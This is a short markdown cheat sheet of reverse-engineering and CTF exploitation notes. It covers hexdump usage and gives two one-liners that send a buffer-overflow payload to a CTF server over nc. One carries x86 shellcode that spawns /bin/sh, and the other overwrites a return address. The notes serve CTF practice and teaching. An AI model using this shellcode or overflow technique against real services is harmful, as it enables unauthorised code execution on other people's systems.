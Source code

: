 # reverse engineering

#### hexdump

###### display file in raw format
By default, without "-C", hexdump displays data as 16-bit words on little endian systems.
```
hexdump -C <filename>
```
###### Echo binary data on the terminal
Useful for injecting shellcode
```
echo -n -e '\xff\xff\xff\xab'
```

#### Binary exploitation
Injecting shell code
```
(python -c 'print "A"*12 + "\x90\x90\x90\x90\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80\x90\x90\x90\x90'; cat) | nc ctf.pwn.press 1337
```
Buffer overflow
```
(python -c 'print "A"*12 + "\xcd\x84\x04\x08"'; cat) | nc ctf.pwn.press 1337
```
